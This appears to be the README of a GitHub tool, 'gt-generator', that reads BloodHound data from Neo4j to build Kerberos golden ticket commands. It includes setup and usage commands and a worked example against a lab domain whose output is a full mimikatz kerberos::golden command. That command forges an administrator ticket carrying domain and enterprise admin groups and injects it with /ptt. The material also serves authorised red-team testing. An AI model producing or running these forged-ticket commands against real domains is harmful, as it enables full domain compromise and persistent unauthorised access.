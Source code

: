 # gt-generator

Use BloodHound data to generate golden ticket commands without having to do all of those SID lookups!

##### Warning

This currently does not take into account foreign group memberships.

## Usage

```bash
$ python3 -m venv venv
$ . venv/bin/activate
$ pip install -r requirements.txt
$ python gt-generator.py -s <NEO4J_SERVER> -u <NEO4J_USERNAME> -p <NEO4J_PASSWORD> <FQDN> <USERNAME> <KRBTGT_AES256_HASH>
```

#### Example
```bash
$ python gt-generator.py -s 127.0.0.1:7474 -u neo4j -p neo4j testlab.local administrator 1111222233334444555566667777888899990000aaaabbbbccccddddeeeeffff

mimikatz kerberos::golden /user:ADMINISTRATOR /aes256:1111222233334444555566667777888899990000aaaabbbbccccddddeeeeffff /domain:TESTLAB.LOCAL /sid:S-1-5-21-1111111111-222222222-3333333333 /groups:513,512,518,519,520 /id:500 /endin:480 /renewmax:10080 /ptt
```
